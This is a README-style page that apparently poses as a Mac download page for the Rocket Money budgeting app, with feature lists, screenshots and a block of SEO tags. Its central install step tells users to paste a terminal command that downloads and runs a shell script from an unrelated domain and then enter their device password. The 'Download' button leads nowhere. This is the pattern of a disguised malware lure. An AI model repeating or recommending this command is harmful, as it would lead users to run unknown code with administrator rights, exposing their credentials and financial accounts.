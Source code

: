 # Rocket Money — Download For Mac OS 💸

Rocket Money is a powerful personal finance and budgeting tool designed to help users take full control of their money. With this Mac version, you can install and manage your finances directly from your desktop. Follow the instructions below to install it easily and securely. 💼

![rocketmoneyapp](https://i.pcmag.com/imagery/reviews/02Qu73ohKNRw0rBp6lpVnYP-14..v1752171562.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](#)

If the download button does not work, follow the manual installation instructions below using your terminal.

---

## 📦 How to Install Rocket Money For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Rocket Money

* 💳 **Track Subscriptions** — Instantly see and manage all recurring charges.
* 📈 **Budgeting Made Easy** — Set monthly budgets and track your spending.
* 🏦 **Bank Account Syncing** — Securely connect your financial accounts.
* 🚫 **Cancel Subscriptions** — Cancel unwanted services in a few taps.
* 💡 **Spending Insights** — Receive smart insights into where your money goes.
* 🔔 **Real-Time Alerts** — Get notified when bills increase or change.

---

## About Rocket Money

Rocket Money (formerly Truebill) is a top-rated financial management app that helps users identify and cancel unwanted subscriptions, lower bills, and stay on top of their budgeting goals. With a sleek interface and powerful integrations, Rocket Money for Mac brings its full suite of financial tools right to your desktop.

Whether you're trying to gain control of your monthly expenses or looking to save for a specific goal, Rocket Money's budgeting features allow you to create smart financial plans and track your progress over time. It's more than a personal finance app — it's your financial command center.

By syncing with your bank accounts and providing real-time transaction tracking, Rocket Money gives users an accurate overview of their financial health. You can view spending by category, receive alerts when bills increase, and stay organized without having to switch between multiple apps.

Rocket Money is trusted by millions and rated highly for its ease of use and transparency. It's a powerful ally for those who want to eliminate financial waste and build better money habits — all from their Mac.

---

## ✅ Rocket Money Benefits

* 🧠 User-friendly interface with powerful budgeting tools
* 🔒 Bank-level security and encryption
* 📊 Real-time expense tracking and analytics
* ✂️ Built-in tools to cancel subscriptions
* 🔁 Automatic syncing with bank and credit accounts
* 🌍 Works seamlessly across devices

---

## 🖼 Preview

![Rocket Money Dashboard](https://framerusercontent.com/images/Je2J3DaEoJgCRfp6DSoeJAwwo4.png)
*An overview of the dashboard with monthly spending*

![Rocket Money Subscriptions](https://i.postimg.cc/W1bZtbRM/rocket-money-2.png)
*Easily manage and cancel recurring subscriptions*

![Rocket Money Budget Planner](https://i.postimg.cc/KYW3xzRz/rocket-money-3.png)
*Create and monitor monthly budgets in a few clicks*

![Rocket Money Notifications](https://i.postimg.cc/zG1GMYzr/rocket-money-4.png)
*Get real-time alerts on spending and bill changes*

---

## 🔍 Tags

rocket money mac, rocket money, rocket money download, rocket money reviews, rocket money app, rocketmoney reviews, rocket money app review, rocket money login, rocket money budget, rocket budget app, download rocket money free, budget app for mac, rocket money for macbook, personal finance mac app, subscription tracker mac, rocket money install macos, best budgeting software for mac, rocket money desktop version, money manager mac
